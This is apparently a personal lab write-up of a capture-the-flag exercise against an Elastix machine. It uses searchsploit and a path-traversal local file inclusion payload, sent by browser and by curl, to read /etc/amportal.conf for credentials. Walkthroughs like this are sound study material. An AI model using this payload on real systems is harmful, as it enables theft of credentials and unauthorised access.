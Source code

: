 ```
searchsploit elastix
```

![[Pasted image 20240709131356.png]]

- We are presented with a few options here but we have yet to discover the version of Elastix
- However, we can can use some reasoning to eliminate the some options
- XXS generally isn't the goal with OSCP or CTF's, gaining access to the machine itself is
- Lets start with reading through the LFI exploit to better understand the environment in hopes of landing a shell

***
**Elastix 2.2.0 - 'graph.php' Local File Inclusion php/webapps/37637.pl**

```
 searchsploit -x 37637
```

- *Elastix is prone to a local file-include vulnerability because it fails to properly sanitize user-supplied input.*
- *Elastix 2.2.0 is vulnerable; other versions may also be affected.*

![[Pasted image 20240709132104.png]]

- This seems to be a very simple one-liner capable of LFI

```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

```

- Navigate to the Browser and input payload

![[Pasted image 20240709132308.png]]

- Appears to disclose credentials but formatting is hard to read so lets use in CLI with `curl`

![[Pasted image 20240709132546.png]]

- Try again and skip verification process with `-k`

```
curl -k 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action'
```
![[Pasted image 20240709133127.png]]

- Log into Elastix

![[Pasted image 20240709133224.png]]

![[Pasted image 20240709133523.png]]

***
